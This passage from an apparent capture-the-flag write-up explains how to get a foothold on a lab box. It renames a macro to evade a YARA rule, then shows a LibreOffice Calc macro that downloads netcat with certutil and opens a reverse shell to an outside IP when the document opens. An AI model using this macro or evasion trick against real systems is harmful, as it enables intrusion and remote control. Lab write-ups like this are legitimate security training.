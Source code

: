 ![](/assets/images/htb-writeup-re/blog5.png)

![](/assets/images/htb-writeup-re/blog6.png)

The `.ods` file extension is used by LibreOffice Calc and this seems to be a hint that I need to use this file format for my payload. One blog post says that malware samples dropped on the share will automatically be executed, but as a low privilege user. This is likely the first step to get a foothold on the box. The blog posts link to [0xdf's blog post about Yara rules](https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html). The example shown on the blog blacklists the following Subs:

- Sub OnLoad
- Sub Exploit

Because I can assign any macro to the Open Document event, I can use `Run_at_open` (or any name for that matter) instead of `OnLoad` for the function name and it won't be caught by the YARA rule.

I created a `sales.ods` file with the following macro using `certutil` to download netcat and execute it.

```vb
Sub Run_at_open
	Shell("certutil.exe -urlcache -split -f 'http://10.10.16.9/nc.exe' C:\Windows\System32\spool\drivers\color\nc.exe")
	Shell("C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.9 4444 -e cmd.exe")
End Sub
```

The macro needs to be assigned to the `Open Document` Event as follows:
